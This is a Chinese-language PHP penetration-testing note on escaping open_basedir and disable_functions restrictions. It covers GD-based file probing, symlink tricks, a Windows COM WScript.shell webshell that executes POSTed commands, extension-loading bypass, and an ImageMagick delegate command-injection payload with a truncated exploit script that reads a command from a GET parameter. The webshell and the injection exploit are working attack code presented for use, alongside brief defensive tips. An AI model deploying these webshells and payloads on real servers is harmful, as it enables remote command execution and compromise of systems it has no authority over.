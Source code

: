 #### GD库imageftbbox/imagefttext列举目录
我拿imageftbbox举个例子，这个函数第三个参数是字体的路径。我发现当这个参数在open_basedir外的时候，当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。

也就是说，我们可以通过抛出错误的具体内容来判断一个文件是否存在。这个方法和realpath有相似性，都会抛出open_basedir的错误。

#### symlink()函数
我们先来了解一下symlink函数

> bool symlink ( string $target , string $link )

symlink函数将建立一个指向target的名为link的符号链接，当然一般情况下这个target是受限于open_basedir的。
在Linux环境下我们可以通过symlink完成一些逻辑上的绕过导致可以跨目录操作文件

### disable_functions
参考:http://blog.leanote.com/post/xuxi/PHP-Webshell%E4%B8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E9%99%90%E5%88%B6%E5%8F%8A%E7%BB%95%E8%BF%87%E6%96%B9%E6%B3%95
用于禁用函数

#### 黑名单绕过
关注并收集php系统命令执行函数，补齐disable_function项

#### 系统组件绕过
适用于windows
1.  <?php
2.  $command=$_POST\[a\];
3.  $wsh = new COM('WScript.shell');   *// 生成一个COM对象*
4.  $exec = $wsh->exec('cmd.exe /c '.$command); *//调用对象方法来执行命令*
5.  $stdout = $exec->StdOut();
6.  $stroutput = $stdout->ReadAll();
7.  echo $stroutput
8.  ?>

Shell.Application也可以实现同样的效果

彻底的解决方案是 直接删除System32目录下wshom.ocx文件

#### 拓展库绕过
Linux下可通过编译拓展库进行绕过
防御方法：将dl函数加入disable_function中禁用

#### imagemagick组件
Delegate命令执行
%m被定义为输入的图片格式,也就是我们输入的url地址。但是由于只是做了简单的字符串拼接,所以我们可以将引号闭合后通过管道符带入其他命令,也就形成了命令注入。

比如url为:https://example.com"|ls "-la

那实际命令就变成了:

"wget" -q -O "%o" " https://example.com"|ls "-la"
ls –la被执行了。

EXP：

```php
<?php 
echo "Disable Functions: " . ini_get('disable_functions') . "\n"; 
 
$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd']; 
if ($command == '') {
    $command = 'id'; 
}
 
$exploit = <<<EOF 
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://example.com/image.jpg"|$command")' 
pop graphic-context 
```